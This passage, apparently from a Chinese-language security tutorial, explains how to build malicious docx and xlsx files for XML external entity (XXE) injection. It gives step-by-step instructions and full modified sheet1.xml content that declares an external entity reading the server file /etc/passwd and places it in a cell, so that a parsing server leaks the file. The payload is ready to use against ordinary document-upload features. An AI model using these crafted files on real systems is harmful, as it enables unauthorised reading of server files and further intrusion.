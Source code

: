 ```
    </w:body>
</w:document>

```  
  
共对两处进行了修改:  
  
a.定义外部实体test，内容为读取服务器/etc/passwd文件。  
  
b.在<w:t>  
标签中引用test实体。  
  
5、修改后，将文件夹重新压缩成ZIP文件，再改后缀为docx。  
  
6、打开文件时会显示文件部分内容有问题，是否恢复，点否即可。  
  
xlsx：  
  
大致过程和具体细节和docx相似，但涉及的XML文件不同。  
  
1、新建xlsx文件并解压。  
  
2、解压后的文件结构如下图。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/KpY8uRYvbC8DjUicBgroYpZjemG4hfvv9Bq6HvxLVC2QE2QuibJTtjP7m4b6I17VGIL5GAbptibKdnPYbMHfbRMMA/640?wx_fmt=png&from=appmsg "")  
  
3、记事本打开文件sheet1.xml进行修改，位置：xl > worksheets > sheet1.xml。  
  
4、sheet1.xml原内容如下：  
```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<worksheet>
    <dimension ref="A1"/>
    <sheetViews>
        <sheetView tabSelected="1" workbookViewId="0"/>
    </sheetViews>
    <sheetFormatPr defaultRowHeight="13.8" x14ac:dyDescent="0.25"/>
    <sheetData>
        <row r="1" spans="1:1" x14ac:dyDescent="0.25">
            <c r="A1" t="s">
                <v>0</v>
            </c>
        </row>
    </sheetData>
    <phoneticPr fontId="1" type="noConversion"/>
    <pageMargins left="0.7" right="0.7" top="0.75" bottom="0.75" header="0.3" footer="0.3"/>
    <pageSetup paperSize="9" orientation="portrait" r:id="rId1"/>
</worksheet>

```  
  
修改后的内容如下：  
```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE test [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
<worksheet>
    <dimension ref="A1"/>
    <sheetViews>
        <sheetView tabSelected="1" workbookViewId="0"/>
    </sheetViews>
    <sheetFormatPr defaultRowHeight="13.8" x14ac:dyDescent="0.25"/>
    <sheetData>
        <row r="1" spans="1:1" x14ac:dyDescent="0.25">
            <c r="A1" t="s">
                <v>&test;</v>
            </c>
        </row>
    </sheetData>
    <phoneticPr fontId="1" type="noConversion"/>
```